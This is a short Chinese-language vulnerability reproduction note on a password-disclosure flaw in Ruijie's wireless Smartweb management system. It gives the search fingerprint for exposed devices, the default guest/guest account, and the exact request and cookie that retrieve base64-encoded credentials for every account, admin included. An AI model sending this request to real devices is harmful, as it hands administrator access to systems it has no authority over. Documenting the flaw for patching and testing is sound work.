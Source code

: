 # 锐捷 Smartweb管理系统 密码信息泄露漏洞

## 漏洞描述

锐捷网络股份有限公司无线smartweb管理系统存在逻辑缺陷漏洞，攻击者可从漏洞获取到管理员账号密码，从而以管理员权限登录。

## 漏洞影响

<a-checkbox checked>锐捷网络股份有限公司 无线smartweb管理系统</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="无线smartWeb--登录页面"</a-checkbox></br>

## 漏洞复现

登录页面如下



![img](/assets/PeiQi-Wiki/img/ruijie-15.png)



默认存在 guest账户，账号密码为 `guest/guest`



其中登录的过程中搜索admin的数据后发现请求了一个文件 `/web/xml/webuser-auth.xml`，而且响应中包含了 admin密码的base64加密



![img](/assets/PeiQi-Wiki/img/ruijie-16.png)



解密就可以获得 admin管理员的密码，尝试直接请求



```plain
http://xxx.xxx.xxx.xxx/web/xml/webuser-auth.xml

Cookie添加
Cookie: login=1; oid=1.3.6.1.4.1.4881.1.1.10.1.3; type=WS5302; auth=Z3Vlc3Q6Z3Vlc3Q%3D; user=guest
```



![img](/assets/PeiQi-Wiki/img/ruijie-17.png)



直接获得所有的账户的等级标志和base64加密的账号密码